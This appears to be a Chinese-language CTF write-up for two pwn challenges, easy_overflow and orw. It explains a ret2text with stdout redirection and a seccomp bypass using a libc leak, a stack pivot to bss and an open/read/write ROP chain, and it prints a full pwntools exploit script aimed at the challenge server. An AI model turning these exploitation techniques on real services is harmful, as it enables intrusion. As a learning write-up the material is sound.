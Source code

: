 ## easy_overflow
就是简单的ret2text，但是回显错误\
![image](https://user-images.githubusercontent.com/98165037/213620292-8aaadc0d-b292-40be-98e1-c23630219a93.png)\
需要注意的是`close(1)`这个函数，当时看的是[这篇](https://blog.csdn.net/xirenwang/article/details/104139866?spm=1001.2014.3001.5506),学长写的wp上是说在`cat flag`后面加上
一句`1>&2`，因为`close(1)`将程序的标准输出(stdout)关闭了导致的没有正常的回显。所以`1>&2` 让flag从标准错误输出(stderr)中输出出来（通过标准输⼊也⾏）。反正就是重定向，原来的
出口被关闭了，就得重新再找一个出口
## orw
![沙盒](https://user-images.githubusercontent.com/98165037/213622015-181e9ced-25fb-4006-9ee3-6de5c39bf3cb.PNG)\
首先开了沙盒\
![orw2](https://user-images.githubusercontent.com/98165037/213621931-53410de0-0b73-4bff-8657-adf802f34597.PNG)\
可以看到execve和execveat都无法调用了，就不能getshell，但是可以用open，read和write来获取flag\
一开始想用shellcraft写shellcode到bss段，然后栈迁移过去执行，但是后来发现bss段没有执行权限，学长说可以用rop，也可以修改内存的权限或者申请一块有执行权限的内存。然后我就去尝试
rop了。\
如果要执行read和write，需要控制rdi，rsi和rdx三个寄存器的值，但是我找不到pop rdx的片段，就尝试用 ret2csu。但是这个比较繁琐，后来也没打通。看wp学到了可以用ropper到libc里去找
pop rdx的片段，就是最后还得加上经leak计算出来的libc_base
![image](https://user-images.githubusercontent.com/98165037/213626370-e7084618-425b-42e5-b108-770d301b8744.png)\
![image](https://user-images.githubusercontent.com/98165037/213626580-e6235670-62b3-4c84-90bb-81c72bc96fa4.png)\
rsi也能找到\
![image](https://user-images.githubusercontent.com/98165037/213626697-40920c09-062f-4e99-9dcb-db1fdf0fb9b5.png)\
这样就方便多了。\
open(存储字符串‘flag’的地址，0)\
思路是第一次read函数溢出得到puts函数的真实地址并返回到vuln执行，算出libc_base,因为read函数可溢出的空间不够我放下rop，所以考虑栈迁移\
![image](https://user-images.githubusercontent.com/98165037/213628424-334328cb-5775-4003-ae0d-9d58a822d61b.png)\
突然发现我可以直接让它从0x4012CF处开始执行，在之前覆盖的时候把rbp覆盖成bss段上的地址(比如bss_start+0x200)，然后这里执行的时候就会直接从rbp-0x100(即bss_start+0x100)处读入
(官方wp上竟然也是这样的嘿嘿）\
ps：之前写exp的时候是第一次read泄露puts地址，然后返回vuln进行第二次read，第二次时才覆盖rbp到bss上，并返回0x4012CF处进行第三次read，然后第三次read往bss上读rop\
  现在觉得可以第一次泄露puts的时候同时把rbp覆盖了，直接返回0x4012CF处，第二次read就可以直接读rop了\
在rop的最后把rbp覆盖到bss+0x100的地方，再加一个leave_ret就完成了栈迁移(因为我在rop的开头放了字符串'/flag',所以rop是从bss+0x108处开始的）\
exp:
```
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
io=remote('week-1.hgame.lwsec.cn',32025)
#io=process("./orw")
elf=ELF("./orw")
libc=ELF('./libc-2.31.so')

read_addr= elf.plt['read']
put_addr = elf.plt['puts']
pop_rdi = 0x401393
pop_rbp = 0x40117d
leave_ret= 0x4012be
bss = 0x404048
main = 0x4012F0

#csu_end_addr=0x40138A
#csu_front_addr=0x401370
#pop_rsp_13_14_15= 0x40138d
#pop_rsi_15 = 0x401391

#0x0000000000142c92: pop rdx; ret;
pop_rdx = 0x142c92
#0x000000000002601f: pop rsi; ret;
pop_rsi = 0x2601f
vuln = 0x4012C0

payload = b'a'*0x108+p64(pop_rdi)+p64(elf.got['puts'])+p64(put_addr)+p64(vuln)+p64(0)
#gdb.attach(io)#,'b *0x4012F0'
io.recvuntil('.\n')
io.send(payload)

puts_got = u64(io.recv(6)+b'\x00'*2)
libc_base = puts_got- libc.sym["puts"]
write_addr = libc_base + libc.sym["write"]
open_addr =  libc_base + libc.sym["open"]
rdx_addr = libc_base + pop_rdx
rsi_addr = libc_base + pop_rsi

payload = b'b'*0x100+p64(bss+0x200)+p64(0x4012CF)+p64(0)*4
io.send(payload)
#.ljust(0x8,b'\x00')
payload = b'/flag\x00\x00\x00' #p64(bss+0x248)+p64(0x4012CF)+p64(0)*4
payload += p64(pop_rdi)+p64(bss+0x100)+p64(rsi_addr)+p64(0)+p64(open_addr)
payload += p64(pop_rdi)+p64(3)+p64(rsi_addr)+p64(bss+0x400)+p64(rdx_addr)+p64(0x100)+p64(read_addr)
payload += p64(pop_rdi)+p64(1)+p64(rsi_addr)+p64(bss+0x400)+p64(rdx_addr)+p64(0x100)+p64(write_addr)
payload += p64(0)*12+p64(bss+0x100)+p64(leave_ret)
io.send(payload)

#payload += p64(0x4012ed)*10+p64(pop_rbp)+p64(bss+0x110)

io.interactive()
```
另外我一开始调试的时候read总是有时候会多读入一点下一次的payload，有时候又正常只读完这次的payload，加了sleep也没用，学长说可以每次就发送read指定长度的payload，长度不够的地方
用0补齐，果然好了
